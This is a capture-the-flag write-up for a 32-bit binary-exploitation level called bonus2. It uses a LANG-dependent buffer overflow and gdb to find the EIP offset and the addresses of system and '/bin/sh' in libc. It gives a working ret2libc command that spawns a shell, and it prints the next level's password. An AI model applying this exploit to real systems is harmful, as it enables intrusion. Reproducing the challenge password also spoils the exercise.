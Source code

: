# bonus2

In this level, the program is not the same if we change the `LANG` env var:
```
export LANG=en_US.UTF-8
export LANG=fi_FI.UTF-8
export LANG=nl_NL.UTF-8
```

If we analyse a little the program, we can see that with the `export LANG=fi_FI.UTF-8`, we can show the EIP at an offset of 18 on the second string

```bash
> export LANG=fi_FI.UTF-8
> gdb bonus2
(gdb) $ run "0123456789012345678901234567890123456789" "AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAf"
...
(segfault) -> Invalid $PC address: 0x41417a41
EIP: 0x41417a41 ('AzAA') -> offset: 18 (./pattern.py search "AzAA")
```

We can call any function with this feature, let's try to find the `system` function
```bash
> gdb bonus2
(gdb) $ b main
(gdb) $ run
(gdb) $ info function system  # need to call it while runningn
0xb7e6b060  system
```

We can call system with this command
```bash
./bonus2 "`perl -e 'print "A"x40'`" "`perl -e 'print "B"x18 . "\x60\xb0\xe6\xb7"'`"
```
The `call system` is after `ret` of `greetuser` function

Now we know that the first argument of call system is the first argument + 3: `./run AA...A<arg-system>AA...A B*18<system-addr>
The arg is `/bin/sh`, try to find this:
```bash
> gdb bonus2
(gdb) $ b main
(gdb) $ run
(gdb) $ find "/bin/sh"
libc : 0xb7f8cc58 ("/bin/sh")
```

Now we have the argument to send to `system`
```bash
> export LANG=fi_FI.UTF-8
> ./bonus2 "`perl -e 'print "\x58\xcc\xf8\xb7"x10'`" "`perl -e 'print "C"x18 . "\x60\xb0\xe6\xb7"'`"
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
